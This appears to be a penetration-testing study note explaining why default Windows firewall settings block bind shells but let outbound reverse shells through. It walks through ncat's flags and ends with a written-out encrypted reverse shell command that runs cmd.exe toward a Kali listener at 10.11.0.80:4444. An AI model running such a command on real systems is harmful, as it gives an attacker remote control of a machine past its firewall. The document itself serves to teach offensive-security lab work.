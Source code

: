 #### Evading Windows Firewall:

Default Windows firewall settings pretty much negate any connections to the windows box. This handles most Bind Shell attacks or opening a port to listen. However, one thing that is interesting is the firewall in default configuration does not guard against the windows machine sending connections to foreign machines. This opens the firewall up to reverse shell attacks. 

## Ncat<a name="ncat"></a>

```sh
$ man ncat #description of command line tool.
```
       Ncat is a feature-packed networking utility which reads and writes data
       across networks from the command line. Ncat was written for the Nmap Project
       and is the culmination of the currently splintered family of Netcat
       incarnations. It is designed to be a reliable back-end tool to instantly
       provide network connectivity to other applications and users. Ncat will not
       only work with IPv4 and IPv6 but provides the user with a virtually limitless
       number of potential uses.

       Among Ncat's vast number of features there is the ability to chain Ncats
       together; redirection of TCP, UDP, and SCTP ports to other sites; SSL
       support; and proxy connections via SOCKS4 or HTTP proxies (with optional
       proxy authentication as well). Some general principles apply to most
       applications and thus give you the capability of instantly adding networking
       support to software that would normally never support it.


So far, ncat seems like a version of netcat that has support for additional functionality like SSL
so you can have a secure tunnel to transfer data over. If you dig deeper in the man pages (man ncat) you can find more information on this additional functionality. For the sake of not writing a small novel, we will move into some examples.

* ncat = linux
* ncat.exe = windows

The tacks are similar between the two environments:
* -v = verbose; (logging) good for confirming what ports you are listening on
* -l [port] = listen; sets ncat to listen on specified port range
* -e = execute; ex: /bin/bash for linux shell/cmd.exe for command prompt. once connected will execute.

* --allow [ip] [port] --ssl
allows only specified ip and port for use in secure socket layer communication.
secure the traffic over the wire.

The following are examples for use in establishing connection streams.

Encrypted reverse shell from Windows -> Kali:
(hint: remember reverse shell involves not executing during listening)

```sh
linux box: ncat -nvl [port] --allow [ip] [port] --ssl
win box: ncat.exe -e cmd.exe -vn 10.11.0.80 4444 --ssl
linux box: shell on windows box.
```
